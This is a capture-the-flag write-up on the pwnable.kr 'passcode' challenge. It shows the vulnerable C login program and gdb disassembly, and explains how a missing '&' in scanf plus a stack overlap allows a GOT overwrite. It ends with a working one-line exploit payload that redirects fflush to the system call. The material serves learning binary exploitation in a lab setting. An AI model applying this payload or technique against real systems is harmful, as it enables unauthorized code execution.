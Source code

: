 # problem reqs
when you login to machine

```
passcode@pwnable:~$ ls -l 

total 16
-r--r----- 1 root passcode_pwn   48 Jun 26  2014 flag
-r-xr-sr-x 1 root passcode_pwn 7485 Jun 26  2014 passcode
-rw-r--r-- 1 root root          858 Jun 26  2014 passcode.c

```

passcode.c

```
#include <stdio.h>  
#include <stdlib.h> 

void login(){
        int passcode1;
        int passcode2;

        printf("enter passcode1 : ");
        scanf("%d", passcode1);
        fflush(stdin);

        // ha! mommy told me that 32bit is vulnerable to bruteforcing :)
        printf("enter passcode2 : ");
        scanf("%d", passcode2);

        printf("checking...\n");
        if(passcode1==338150 && passcode2==13371337){
                printf("Login OK!\n");
                system("/bin/cat flag");
        }
        else{
                printf("Login Failed!\n");
                exit(0);
        }
}
void welcome(){
        char name[100];
        printf("enter you name : ");
        scanf("%100s", name);
        printf("Welcome %s!\n", name);
}

int main(){
        printf("Toddler's Secure Login System 1.0 beta.\n");

        welcome();  
        login();

        // something after login...
        printf("Now I can safely trust you that you have credential :)\n");
        return 0;   
}


```

# thought process
clearly scanf is at fault here. Like `&` is missing and when you try to put integer to it, program crasshes. So we would have to find another way to put "junk" values in passcode1 and passcode2.

We see that in the welcome function `char[100] name` asks for the input. It gives me the hunch that I could explore the buffer overflow route.

Let's explore welcome function with gdb
```
(gdb) disas welcome
Dump of assembler code for function welcome:
   0x08048609 <+0>:     push   ebp
   0x0804860a <+1>:     mov    ebp,esp
   0x0804860c <+3>:     sub    esp,0x88
   0x08048612 <+9>:     mov    eax,gs:0x14
   0x08048618 <+15>:    mov    DWORD PTR [ebp-0xc],eax
   0x0804861b <+18>:    xor    eax,eax
   0x0804861d <+20>:    mov    eax,0x80487cb
   0x08048622 <+25>:    mov    DWORD PTR [esp],eax
   0x08048625 <+28>:    call   0x8048420 <printf@plt>
   0x0804862a <+33>:    mov    eax,0x80487dd
   0x0804862f <+38>:    lea    edx,[ebp-0x70]
   0x08048632 <+41>:    mov    DWORD PTR [esp+0x4],edx
   0x08048636 <+45>:    mov    DWORD PTR [esp],eax
   0x08048639 <+48>:    call   0x80484a0 <__isoc99_scanf@plt>
   0x0804863e <+53>:    mov    eax,0x80487e3
   0x08048643 <+58>:    lea    edx,[ebp-0x70]
   0x08048646 <+61>:    mov    DWORD PTR [esp+0x4],edx
   0x0804864a <+65>:    mov    DWORD PTR [esp],eax
   0x0804864d <+68>:    call   0x8048420 <printf@plt>
   0x08048652 <+73>:    mov    eax,DWORD PTR [ebp-0xc]

```
We see `lea    edx,[ebp-0x70]`. This should be `char[100]`. Cool!
Let's disassembly login function
```
(gdb) disas login
Dump of assembler code for function login:
   0x08048564 <+0>:     push   ebp
   0x08048565 <+1>:     mov    ebp,esp
   0x08048567 <+3>:     sub    esp,0x28
   0x0804856a <+6>:     mov    eax,0x8048770
   0x0804856f <+11>:    mov    DWORD PTR [esp],eax
   0x08048572 <+14>:    call   0x8048420 <printf@plt>
   0x08048577 <+19>:    mov    eax,0x8048783
   0x0804857c <+24>:    mov    edx,DWORD PTR [ebp-0x10]
   0x0804857f <+27>:    mov    DWORD PTR [esp+0x4],edx
   0x08048583 <+31>:    mov    DWORD PTR [esp],eax
   0x08048586 <+34>:    call   0x80484a0 <__isoc99_scanf@plt>
   0x0804858b <+39>:    mov    eax,ds:0x804a02c
   0x08048590 <+44>:    mov    DWORD PTR [esp],eax
   0x08048593 <+47>:    call   0x8048430 <fflush@plt>
   0x08048598 <+52>:    mov    eax,0x8048786
   0x0804859d <+57>:    mov    DWORD PTR [esp],eax
   0x080485a0 <+60>:    call   0x8048420 <printf@plt>
   0x080485a5 <+65>:    mov    eax,0x8048783
   0x080485aa <+70>:    mov    edx,DWORD PTR [ebp-0xc]
   0x080485ad <+73>:    mov    DWORD PTR [esp+0x4],edx
   0x080485b1 <+77>:    mov    DWORD PTR [esp],eax
   0x080485b4 <+80>:    call   0x80484a0 <__isoc99_scanf@plt>
   0x080485b9 <+85>:    mov    DWORD PTR [esp],0x8048799
   0x080485c0 <+92>:    call   0x8048450 <puts@plt>
   0x080485c5 <+97>:    cmp    DWORD PTR [ebp-0x10],0x528e6
   0x080485cc <+104>:   jne    0x80485f1 <login+141>
   0x080485ce <+106>:   cmp    DWORD PTR [ebp-0xc],0xcc07c9

```
here I have shown only the relevant part. Notice the following lines

```
0x080485c5 <+97>:    cmp    DWORD PTR [ebp-0x10],0x528e6
0x080485cc <+104>:   jne    0x80485f1 <login+141>
0x080485ce <+106>:   cmp    DWORD PTR [ebp-0xc],0xcc07c9
```
338150 in hex is 0x528E6. Required value of passcode1
13371337 in hex is 0xcc07c9. Required value of passcode2
Beautiful!

So next thing that comes in mind is can we set the both values in login function using welcome function?
Let's see `char[100]` started from `epb-0x70` and passcode1 is at `ebp-0x10`.

if we check the difference between both of these 
```
(gdb) p/d 0x70-0x10
$1 = 96

```
It's 96. 96 bytes. sweet. So seems like I can control the value of passcode1. But how do I control the value of passcode2??
One point to note here is that in the original code `scanf("%100s", name);` only accepts 100 bytes only.

hmmmm....

Here I was out of my depths. So after researching on the internet, I found about GOT hijacking. GOT is global offset table. So basically when a C program is compiled into a binary, not all the functions are resolved. Especially the functions in shared libraries like printf, system(...), scanf() etc. It's linkers responsiblity to find them and once it finds them, then it places there address in the GOT. It works more like on-demand feature. When a function is required, linker will fetch it and place it's address in GOT and then if this function is required again, it'll be present there.
If you didn't understand, what I am talking about I encourage you to read about it on wikipedia and other tons of articles and come back.

Cool!

How do we exploit this?
If you note the scanf function of login function, we `&` is missing. Normaly scanf takes the value from `stdin` and the put the value at the address of variable(in the second argument of scanf). But this time, it will take the value from `stdin` and put the value into the address pointed to by value of passcode1.

Let's summarise what we have learnt till now:
- we could influence the value of passcode1.
- we could overrite the value of the address pointed by value of passcode1.

If you would have run the program and given the input to passcode1, you would have noticed that program crashed(or core dumped). That is because passcode1 had a junk value. That value didn't wasn't mapped to any real address. So the plan for our exploit is we would give passcode1 a valid address as a 'junk' value and then overrite that address's value with our target value.

Ok, if you understood how GOT works is you would realise that every function has their address stored in GOT. So even `fflush()` would have their entry in GOT and will system() function have. I feel we have something brewing up here. Let's see

When fflush() is executed, program execution will got to GOT to find the address of fflush. it's not there, so the linker will go ahead and find the address and then put the value in it. What if put some address there before all this search and find takes place? seems interesting.

let's disassemble login again for a sec

```
   0x0804858b <+39>:    mov    eax,ds:0x804a02c
   0x08048590 <+44>:    mov    DWORD PTR [esp],eax
   0x08048593 <+47>:    call   0x8048430 <fflush@plt>
   0x08048598 <+52>:    mov    eax,0x8048786
   0x0804859d <+57>:    mov    DWORD PTR [esp],eax
   0x080485a0 <+60>:    call   0x8048420 <printf@plt>
   0x080485a5 <+65>:    mov    eax,0x8048783
   0x080485aa <+70>:    mov    edx,DWORD PTR [ebp-0xc]
   0x080485ad <+73>:    mov    DWORD PTR [esp+0x4],edx
   0x080485b1 <+77>:    mov    DWORD PTR [esp],eax
   0x080485b4 <+80>:    call   0x80484a0 <__isoc99_scanf@plt>
   0x080485b9 <+85>:    mov    DWORD PTR [esp],0x8048799
   0x080485c0 <+92>:    call   0x8048450 <puts@plt>
   0x080485c5 <+97>:    cmp    DWORD PTR [ebp-0x10],0x528e6
   0x080485cc <+104>:   jne    0x80485f1 <login+141>
   0x080485ce <+106>:   cmp    DWORD PTR [ebp-0xc],0xcc07c9
   0x080485d5 <+113>:   jne    0x80485f1 <login+141>
   0x080485d7 <+115>:   mov    DWORD PTR [esp],0x80487a5
   0x080485de <+122>:   call   0x8048450 <puts@plt>
   0x080485e3 <+127>:   mov    DWORD PTR [esp],0x80487af
   0x080485ea <+134>:   call   0x8048460 <system@plt>
```
alright I think, in the GOT entry of fflush we would put the address `0x080485e3`(second from last). 

When I was reading writeups, I was confused as to why not put address `0x080485ea` cuz that's where the call to `system` takes place. But the thing it loads the arguments to `system` function at the address `0x080485ea`. That's why we put that address in the fflush.

Cool! 

Let's begin our attack. Since passcode1 value is asked in decimal, 0x080485e3 is 134514147.

(echo -ne "aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa\x04\xa0\x04\x08134514147") | ./passcode


this should give you the flag. yipee!

# solution
